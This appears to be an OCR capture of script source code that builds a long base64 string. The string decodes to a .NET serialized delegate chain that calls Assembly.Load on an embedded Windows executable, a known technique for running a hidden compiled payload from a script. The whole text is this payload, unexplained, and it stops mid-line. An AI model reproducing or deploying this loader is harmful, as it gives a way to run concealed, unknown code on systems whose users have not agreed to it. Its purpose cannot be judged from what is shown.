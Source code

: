     s = "AAEAAAD/AQAAAAAAAAAEAQAAACJTeXN0ZW0uRGVsZWdhdGVTZXJpYWxpemF0aW9uSG9sZGVy" s = s & "AwAAAAhEZWxlZ2F0ZQd0YXJnZXQwB21ldGhvZDADAwMwU3lzdGVtLkRlbGVnYXRlU2VyaWFsaXph" s = s & "dGlvbkhvbGRlcitEZWxlZ2F0ZUVudHJ5IlN5c3RlbS5EZWxlZ2F0ZVNlcmlhbGl6YXRpb25Ib2xk" s = s & "ZXIvU3lzdGVtLlJlZmxlY3Rpb24uTWVtYmVySW5mb1NlcmlhbGl6YXRpb25Ib2xkZXIJAgAAAAkD" s = s & "AAAACQQAAAAEAgAAADBTeXN0ZW0uRGVsZWdhdGVTZXJpYWxpemF0aW9uSG9sZGVyK0RlbGVnYXRl" s = s & "RW50cnkHAAAABHR5cGUIYXNzZW1ibHkGdGFyZ2V0EnRhcmdldFR5cGVBc3NlbWJseQ50YXJnZXRU" s = s & "eXBlTmFtZQptZXRob2ROYW1lDWRlbGVnYXRlRW50cnkBAQIBAQEDMFN5c3RlbS5EZWxlZ2F0ZVNl" s = s & "cmlhbGl6YXRpb25Ib2xkZXIrRGVsZWdhdGVFbnRyeQYFAAAAL1N5c3RlbS5SdW50aW1lLlJlbW90" s = s & "aW5nLk1lc3NhZ2luZy5IZWFkZXJIYW5kbGVyBgYAAABLbXNjb3JsaWIsIFZlcnNpb249Mi4wLjAu" s = s & "MCwgQ3VsdHVyZT1uZXV0cmFsLCBQdWJsaWNLZXlUb2tlbj1iNzdhNWM1NjE5MzRlMDg5BgcAAAAH" s = s & "dGFyZ2V0MAkGAAAABgkAAAAPU3lzdGVtLkRlbGVnYXRlBgoAAAANRHluYW1pY0ludm9rZQoEAwAA" s = s & "ACJTeXN0ZW0uRGVsZWdhdGVTZXJpYWxpemF0aW9uSG9sZGVyAwAAAAhEZWxlZ2F0ZQd0YXJnZXQw" s = s & "B21ldGhvZDADBwMwU3lzdGVtLkRlbGVnYXRlU2VyaWFsaXphdGlvbkhvbGRlcitEZWxlZ2F0ZUVu" s = s & "dHJ5Ai9TeXN0ZW0uUmVmbGVjdGlvbi5NZW1iZXJJbmZvU2VyaWFsaXphdGlvbkhvbGRlcgkLAAAA" s = s & "CQwAAAAJDQAAAAQEAAAAL1N5c3RlbS5SZWZsZWN0aW9uLk1lbWJlckluZm9TZXJpYWxpemF0aW9u" s = s & "SG9sZGVyBgAAAAROYW1lDEFzc2VtYmx5TmFtZQlDbGFzc05hbWUJU2lnbmF0dXJlCk1lbWJlclR5" s = s & "cGUQR2VuZXJpY0FyZ3VtZW50cwEBAQEAAwgNU3lzdGVtLlR5cGVbXQkKAAAACQYAAAAJCQAAAAYR" s = s & "AAAALFN5c3RlbS5PYmplY3QgRHluYW1pY0ludm9rZShTeXN0ZW0uT2JqZWN0W10pCAAAAAoBCwAA" s = s & "AAIAAAAGEgAAACBTeXN0ZW0uWG1sLlNjaGVtYS5YbWxWYWx1ZUdldHRlcgYTAAAATVN5c3RlbS5Y" s = s & "bWwsIFZlcnNpb249Mi4wLjAuMCwgQ3VsdHVyZT1uZXV0cmFsLCBQdWJsaWNLZXlUb2tlbj1iNzdh" s = s & "NWM1NjE5MzRlMDg5BhQAAAAHdGFyZ2V0MAkGAAAABhYAAAAaU3lzdGVtLlJlZmxlY3Rpb24uQXNz" s = s & "ZW1ibHkGFwAAAARMb2FkCg8MAAAAAB4AAAJNWpAAAwAAAAQAAAD//wAAuAAAAAAAAABAAAAAAAAA" s = s & "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAACAAAAADh+6DgC0Cc0huAFMzSFUaGlzIHByb2dy" s = s & "YW0gY2Fubm90IGJlIHJ1biBpbiBET1MgbW9kZS4NDQokAAAAAAAAAFBFAABMAQMAkNhXWQAAAAAA" s = s & "AAAA4AAiIAsBMAAAFgAAAAYAAAAAAAByNQAAACAAAABAAAAAAAAQACAAAAACAAAEAAAAAAAAAAQA" s = s & "AAAAAAAAAIAAAAACAAAAAAAAAwBAhQAAEAAAEAAAAAAQAAAQAAAAAAAAEAAAAAAAAAAAAAAAIDUA" s = s & "AE8AAAAAQAAAkAMAAAAAAAAAAAAAAAAAAAAAAAAAYAAADAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA" s = s & "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAgAAAIAAAAAAAAAAAAAAAIIAAASAAAAAAAAAAA" s = s & "AAAALnRleHQAAAB4FQAAACAAAAAWAAAAAgAAAAAAAAAAAAAAAAAAIAAAYC5yc3JjAAAAkAMAAABA" s = s & "AAAABAAAABgAAAAAAAAAAAAAAAAAAEAAAEAucmVsb2MAAAwAAAAAYAAAAAIAAAAcAAAAAAAAAAAA" s = s & "AAAAAABAAABCAAAAAAAAAAAAAAAAAAAAAFQ1AAAAAAAASAAAAAIABQD4IQAAKBMAAAEAAAAAAAAA" s = s & "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAHgIoDwAACioT" s = s & "MAoABwEAAAEAABEEKBAAAAoKEgEGjmkoEQAACnMJAAAGDAgWfTUAAARyAQAAcBMEcgMAAHAoEgAA" s = s & "Cm8TAAAKFjEZch0AAHAoEgAACnIrAABwAygUAAAKEwQrF3IdAABwKBIAAApyQQAAcAMoFAAAChME" s = s & "EQQUFBQXGn4VAAAKFAgSAygBAAAGJgl7BAAABBMFEgUoFgAACnJXAABwKBcAAAosbhEFFnMRAAAK" s = s & "ByAAMAAAH0AoAgAABhMGEgYoFgAACnJXAABwKBgAAAosChEFFigEAAAGJioWEwcSCAaOaSgRAAAK" s = s & "EQURBgYRCBEHKAMAAAYmEQUWcxEAAAoWEQYWcxEAAAoWFnMRAAAKKAUAAAYmKnoCfhUAAAp9AgAA" s = s & "BAIoDwAACgICKBkAAAp9AQAABCoAABMwAgBgAAAAAAAAAAJ+FQAACn0rAAAEAn4VAAAKfSwAAAQC" s = s & "fhUAAAp9LQAABAJ+FQAACn04AAAEAn4VAAAKfTkAAAQCfhUAAAp9OgAABAJ+FQAACn07AAAEAigP" s = s & "AAAKAgIoGQAACn0qAAAEKkJTSkIBAAEAAAAAAAwAAAB2Mi4wLjUwNzI3AAAAAAUAbAAAACgHAAAj" s = s & "fgAAlAcAAEwJAAAjU3RyaW5ncwAAAADgEAAAXAAAACNVUwA8EQAAEAAAACNHVUlEAAAATBEAANwB" s = s & "AAAjQmxvYgAAAAAAAAACAAABVx0CFAkCAAAA+gEzABYAAAEAAAAXAAAACQAAAFAAAAAJAAAAHwAA" s = s & "ABkAAAAzAAAAEgAAAAEAAAABAAAABQAAAAEAAAABAAAABwAAAAAAmQYBAAAAAAAGAFwFkgcGAMkF" s = s & "kgcGAIoEYAcPALIHAAAGALIE4QYGADAF4QYGABEF4QYGALAF4QYGAHwF4QYGAJUF4QYGAMkE4QYG" s = s & "AJ4EcwcGAHwEcwcGAPQE4QYGAKsIqQYGAGEEqQYGAE0FqQYGALAGqQYGAMoIqQYGAFkHqQYGAL4I" s = s & "qQYGAGYGqQYGAIQGcwcAAAAAJQAAAAAAAQABAAEAEABtBgAAPQABAAEACgAQAPgHAAA9AAEACAAK" s = s & "ARAAzgYAAEEABAAJAAIBAAAbCAAASQAIAAkAAgEAADYIAABJACcACQAKABAABgcAAD0AKgAJAAIB" s = s & "AABtBAAASQA8AAoAAgEAAPMGAABJAEUACgAGAH0G+gAGAEQHPwAGACQE/QAGAHQIPwAGAOcDPwAG" s = s & "AMgD+gAGAL0D+gAGBp4DAAFWgLICAwFWgMACAwFWgGQAAwFWgIgCAwFWgMIAAwFWgFMCAwFWgPEB" s = s & "AwFWgB0CAwFWgAUCAwFWgKABAwFWgAIDAwFWgF4BAwFWgEgBAwFWgOEBAwFWgE0CAwFWgDECAwFW" s = s & "gGoDAwFWgIIDAwFWgJkCAwFWgB0DAwFWgHYBAwFWgHUAAwFWgD0AAwFWgCcBAwFWgKgAAwFWgDoD" s = s & "AwFWgLkBAwFWgBgBAwFWgMYBAwFWgOUCAwEGBp4DAAFWgJEABwFWgHICBwEGAKYD+gAGAO8DPwAG" s = s & "ABcHPwAGADMEPwAGAEsD+gAGAJoD+gAGAOcF+gAGAO8F+gAGAEcI+gAGAFUI+gAGAOQE+gAGAC4I" s = s & "+gAGAOcICwEGAA0ACwEGABkAPwAGANIIPwAGANwIPwAGADQHPwAGBp4DAAFWgN4CDgFWgO8ADgFW" s = s & "gJ0BDgFWgNgCDgFWgNUBDgFWgA8BDgFWgJQBDgFWgAMBDgEGBp4DAAFWgOcAEgFWgFcAEgFWgNUA" s = s & "EgFWgFgDEgFWgGkCEgFWgE8DEgFWgN0AEgFWgGADEgFWgBEGEgFWgCQGEgFWgDkGEgEAAAAAgACW" s = s & "IC4AFgEBAAAAAACAAJYg8wgqAQsAAAAAAIAAliAJCTUBEAAAAAAAgACWIGMIPwEVAAAAAACAAJEg" s = s & "1ANFARcAUCAAAAAAhhg+BwYAHgBYIAAAAACGAE0EUAEeAGshAAAAAIYYPgcGACAAjCEAAAAAhhg+" s = s & "BwYAIAAAAAEAOwQAAAIAUwQAAAMA5AcAAAQA0QcAAAUAwQcAAAYACwgAAAcAvAgAAAgAHAkBAAkA" s = s & "BAcCAAoAzAYAAAEAGwQAAAIAiwgAAAMAAwYAAAQAawQAAAUAsggAAAEAdAgAAAIAfQgAAAMAIQcA" s = s & "AAQAAwYAAAUAtQYAAAEAdAgAAAIA+gMAAAEAdAgAAAIA0QcAAAMA9wUAAAQAlQgAAAUAKAcAAAYA" s = s & "CwgAAAcAsgMAAAEAAgkAAAIAAQAJAD4HAQARAD4HBgAZAD4HCgApAD4HEAAxAD4HEAA5AD4HEABB" s = s & "AD4HEABJAD4HEABRAD4HEABZAD4HEABhAD4HFQBpAD4HEABxAD4HEACJAD4HBgB5AD4HBgCZAFMG" s = s & "KQChAD4HAQCpAAQELwCxAHkGNACxAKQIOAChABIHPwChAGQGQgCxADsJRgCxAC8JRgC5AAoGTAAJ" s = s & "ACQAWgAJACgAXwAJACwAZAAJADAAaQAJADQAbgAJADgAcwAJADwAeAAJAEAAfQAJAEQAggAJAEgA" s = s & "hwAJAEwAjAAJAFAAkQAJAFQAlgAJAFgAmwAJAFwAoAAJAGAApQAJAGQAqgAJAGgArwAJAGwAtAAJ" s = s & "AHAAuQAJAHQAvgAJAHgAwwAJAHwAyAAJAIAAzQAJAIQA0gAJAIgA1wAJAIwA3AAJAJAA4QAJAJQA" s = s & "5gAJAJgA6wAJAKAAWgAJAKQAXwAJAPQAlgAJAPgAmwAJAPwA8AAJAAABuQAJAAQB4QAJAAgB9QAJ" s = s &